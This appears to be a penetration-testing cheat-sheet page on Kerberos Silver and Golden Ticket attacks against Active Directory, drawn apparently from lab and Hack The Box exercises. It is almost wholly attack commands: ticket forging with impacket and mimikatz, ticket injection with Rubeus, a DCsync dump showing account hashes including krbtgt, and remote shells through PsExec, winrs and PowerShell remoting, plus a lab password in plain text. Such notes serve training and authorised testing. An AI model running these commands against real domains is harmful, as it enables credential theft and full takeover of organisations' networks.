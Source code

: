 ```yaml
---
title: "Tickets"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


**Silver Ticket :** 

On Linux

```sh
python ticketer.py -nthash <HASH> -domain-sid <DOMAIN_SID> -domain <DOMAIN> -spn <SERVICE_PRINCIPAL_NAME> <USER>
export KRB5CCNAME=/root/impacket-examples/<TICKET_NAME>.ccache 
python psexec.py <DOMAIN>/<USER>@<TARGET> -k -no-pass
```

On Windows

```sh
# Create the ticket
mimikatz.exe "kerberos::golden /domain:<DOMAIN> /sid:<DOMAIN_SID> /rc4:<HASH> /user:<USER> /service:<SERVICE> /target:<TARGET>"

# Inject the ticket
mimikatz.exe "kerberos::ptt <TICKET_FILE>"
.\Rubeus.exe ptt /ticket:<TICKET_FILE>

# Obtain a shell
.\PsExec.exe -accepteula \\<TARGET> cmd
```

**Golden Ticket :**

On Windows

- DCsync :
 ```sh
 mimikatz # lsadump::dcsync /all /csv  
 ```
 
 - Result : 
 ```sh
[DC] 'lab.trusted.vl' will be the domain
[DC] 'labdc.lab.trusted.vl' will be the DC server
[DC] Exporting domain 'lab.trusted.vl'
1104    rsmith  30ef48d2054363df9244bc0d476e93dd        66048
502     krbtgt  c7a03c565c68c6fac5f8913fab576ebd        514
1106    ewalters        56d93bd5a8250652c7430a4467a8540a        66048
500     Administrator   75878369ad33f35b7070ca854100bc07        66048
1107    cpowers 322db798a55f85f09b3d61b976a13c43        66048
1000    LABDC$  c101e5fcd553128d23a62df1c509a576        532480
1103    TRUSTED$        182161c2718e1d45b2202d6e35a7eb6e        2080
```

 - Creating Golden ticket : 
 ```sh
mimikatz # kerberos::golden /user:Administrator /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```

- Load the ticket to get the shell on root domain trusteddc.trusted.vl
```sh
mimikatz: kerberos::ptt ticket.kirbi

winrs -r:trusteddc.trusted.vl cmd
#or 
Enter-PSSession trusteddc.trusted.vl
#Or 
.\PsExec.exe -accepteula \\<TARGET> cmd
```

On Linux

- Modifying krb5.conf : 
```sh
[libdefaults]
    default_realm = INFILTRATOR.HTB

[realms]
    INFILTRATOR.HTB = {
        kdc = 10.10.11.31
        admin_server = 10.10.11.31
    }

[domain_realm]
    .infiltrator.htb = INFILTRATOR.HTB
    infiltrator.htb = INFILTRATOR.HTB
```

- Obtain Tgt ticket :
```sh
getTGT.py 'infiltrator.htb'/'d.anderson'@10.129.62.59 
#or 
getTGT.py 'infiltrator.htb'/'d.anderson':'WAT?watismypass!' -dc-ip 10.129.62.59
```
